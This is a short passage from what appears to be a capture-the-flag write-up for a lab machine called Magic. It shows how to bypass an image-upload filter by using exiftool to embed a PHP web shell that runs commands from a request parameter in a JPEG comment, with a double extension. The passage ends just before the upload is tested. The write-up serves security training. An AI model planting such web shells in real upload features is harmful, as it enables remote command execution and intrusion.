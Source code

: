 Uploading the GIF does not seem to be allowed.

We can use exiftool to add PHP-code as a comment to a valid image.

```bash
root@silence:~# exiftool -Comment='<?php echo "<pre>"; system($_REQUEST['cmd']); ?>' chronos.php.jpg
    1 image files updated
root@silence:~# exiftool chronos.php.jpg
ExifTool Version Number         : 11.80
File Name                       : chronos.php.jpg
Directory                       : .
File Size                       : 115 kB
File Modification Date/Time     : 2020:04:27 19:23:39+02:00
File Access Date/Time           : 2020:04:27 19:23:42+02:00
File Permissions                : rw-rw-rw-
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Comment                         : <?php echo "<pre>"; system($_REQUEST[cmd]); ?>
```

![Uploading image](/assets/htb/Magic/img-uploading.png)

Now let us upload this image and check if code execution is now possible.
